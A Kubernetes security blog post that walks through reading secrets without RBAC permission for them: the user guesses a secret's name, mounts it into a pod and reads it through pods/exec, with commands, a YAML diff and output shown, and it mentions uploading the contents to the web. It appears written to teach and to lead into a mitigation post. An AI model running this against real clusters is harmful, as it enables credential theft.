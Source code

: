 ```yaml
---
author: "Suraj Deshmukh"
date: "2021-05-08T12:17:07+05:30"
title: "Access Any Kubernetes Secret"
description: "A little trickery and access any Kubernetes Secret!"
draft: false
categories: ["kubernetes", "security"]
tags: ["kubernetes", "security"]
images:
- src: "/post/2021/05/access-k8s-secrets/forbidden.jpg"
  alt: "Forbidden"
---
```


Photo by [Kyle Glenn](https://unsplash.com/@kylejglenn) on [Unsplash](https://unsplash.com).

You can gain access to any secret that you want in Kubernetes even if you don't have RBAC permissions to get, list or view that secret. All you need is permission that allows you to do anything on pods and an ability to guess the names of secrets. With these two ingredients, here is how you can access any secret out there.

## Nasty User

Here is a user called `nastyuser` who can only do stuff on pod objects. Everything else is forbidden.
The user cannot list secrets, namespaces or deployments:

```bash
$ kubectl get ns
Error from server (Forbidden): namespaces is forbidden: User "nastyuser" cannot list resource "namespaces" in API group "" at the cluster scope

$ kubectl get secrets
Error from server (Forbidden): secrets is forbidden: User "nastyuser" cannot list resource "secrets" in API group "" in the namespace "default"

$ kubectl get deploy
Error from server (Forbidden): deployments.apps is forbidden: User "nastyuser" cannot list resource "deployments" in API group "apps" in the namespace "default"
```

The user has access to `pods` and `pods/exec` and a bunch of other things that are required for a user to have functional access to the Kubernetes:

```bash
$ kubectl auth can-i --list
Resources                                       Non-Resource URLs   Resource Names   Verbs
pods/exec                                       []                  []               [*]
pods                                            []                  []               [*]
selfsubjectaccessreviews.authorization.k8s.io   []                  []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []               [create]
                                                [/api/*]            []               [get]
                                                [/api]              []               [get]
                                                [/apis/*]           []               [get]
                                                [/apis]             []               [get]
                                                [/healthz]          []               [get]
                                                [/healthz]          []               [get]
                                                [/livez]            []               [get]
                                                [/livez]            []               [get]
                                                [/openapi/*]        []               [get]
                                                [/openapi]          []               [get]
                                                [/readyz]           []               [get]
                                                [/readyz]           []               [get]
                                                [/version/]         []               [get]
                                                [/version/]         []               [get]
                                                [/version]          []               [get]
                                                [/version]          []               [get]
```

**NOTE:** You will need at least `pods/exec` or `pods/logs` to see the content of the secret using the generic bash tools. If you don't have this extra permission, you can create a script that reads contents and uploads the contents somewhere, which you can access from over the web. For the sake of simplicity, I chose `pods/exec` as extra permission.

**NOTE:** How you gain access to a kubeconfig that has the aforementioned authorisation is out of the scope of this blog. It is possible to gain access somehow to the host and fortuitously gain access to the service account token secret that has previously mentioned permissions.

## Do what you can

Now how do you gain access to secrets with RBAC permissions only for pods? Your social skills and guesswork is going to help you find the name of the secrets. But even if you guess the name of the secret, you cannot access the secret the kubectl way since RBAC won't let you do that. So you will use the only permission you have on the Kubernetes cluster, which is creating pods.

> If you don't have access to the Kubernetes secret but know the name of the Kubernetes secret, you can simply
>
> 1) Create a pod.
> 2) Mount that secret into the pod.
> 3) Kubelet will happily give it to you regardless of your RBAC permissions to access the secret.

Let's see that in action. Start by creating a dummy pod config:

```yaml
$ kubectl run sleep --image=fedora --dry-run=client -o yaml -- sleep infinity > pod.yaml
$ cat pod.yaml
apiVersion: v1
kind: Pod
metadata:
  creationTimestamp: null
  labels:
    run: sleep
  name: sleep
spec:
  containers:
  - args:
    - sleep
    - infinity
    image: fedora
    name: sleep
    resources: {}
  dnsPolicy: ClusterFirst
  restartPolicy: Always
status: {}
```

Now add the following changes to the config. Here we are mounting a secret inside the pod at path `/access-secret`. Once the pod is up and running, we will find the mounted secret in this directory. We will replace the `secretName` field value from `GUESSED_SECRET` with something else as we keep on guessing.

```diff
diff --git pod.yaml pod.yaml
index 479a53d..2376fe3 100644
--- pod.yaml
+++ pod.yaml
@@ -13,6 +13,13 @@ spec:
     image: fedora
     name: sleep
     resources: {}
+    volumeMounts:
+    - name: hackedsecret
+      mountPath: /access-secret/
   dnsPolicy: ClusterFirst
   restartPolicy: Always
+  volumes:
+  - name: hackedsecret
+    secret:
+      secretName: GUESSED_SECRET
 status: {}
```

## Attempt 1st

Use `sed` to replace the string `GUESSED_SECRET` and create the pod out of it:

```bash
$ sed 's|GUESSED_SECRET|admin|g' pod.yaml | kubectl create -f -
pod/sleep created
```

Now check the pod:

```bash
$ kubectl get pods
NAME    READY   STATUS              RESTARTS   AGE
sleep   0/1     ContainerCreating   0          96s
```

The pod is in `ContainerCreating` state for more than a minute that means the secret does not exist, and Kubelet is failing to mount it in the pod. Describing the pod won't tell us anything because we don't have access to the events.

```bash
$ kubectl describe pod sleep | tail -3
Tolerations:     node.kubernetes.io/not-ready:NoExecute op=Exists for 300s
                 node.kubernetes.io/unreachable:NoExecute op=Exists for 300s
Events:          <none>
```

Cleanup by running the following command:

```bash
$ kubectl delete pod sleep
pod "sleep" deleted
```

## Attempt nth

Let's try a different secret name:

```bash
$ sed 's|GUESSED_SECRET|supersecret|g' pod.yaml | kubectl create -f -
pod/sleep created
```

Let's check the pod status:

```bash
$ kubectl get pods
NAME    READY   STATUS    RESTARTS   AGE
sleep   1/1     Running   0          32s
```

Yay, that means we guessed the secret name correctly. Let's gain access to the pod's terminal to find out the contents of the secrets:

```bash
$ kubectl exec -it sleep bash
kubectl exec [POD] [COMMAND] is DEPRECATED and will be removed in a future version. Use kubectl exec [POD] -- [COMMAND] instead.
[root@sleep /]#
```

Now go to the place where the secret is mounted and discover what is in secret.

```bash
[root@sleep ~]# cd /access-secret/
[root@sleep access-secret]# cat data
supersecretvaluesinhere
```

## Conclusion

This post was from the perspective of an attacker. It showed you how you could use guessing the secret name to gain access to any secret you like, of course, with the help of Kubelet.

In the [next blog](https://suraj.io/post/2021/05/access-k8s-secrets-mitigation/), we will see how to detect this issue and stop it from happening.

## Background Setup

I used the following commands to create a user and assign permissions to that user:

```bash
kubectl create role pod-all --verb=* --resource=pods --resource=pods/exec
kubectl create rolebinding pod-all:nastyuser --role=pod-all --user=nastyuser
kubectl create secret generic supersecret --from-literal data=supersecretvaluesinhere
alias kubectl='kubectl --as=nastyuser'
```
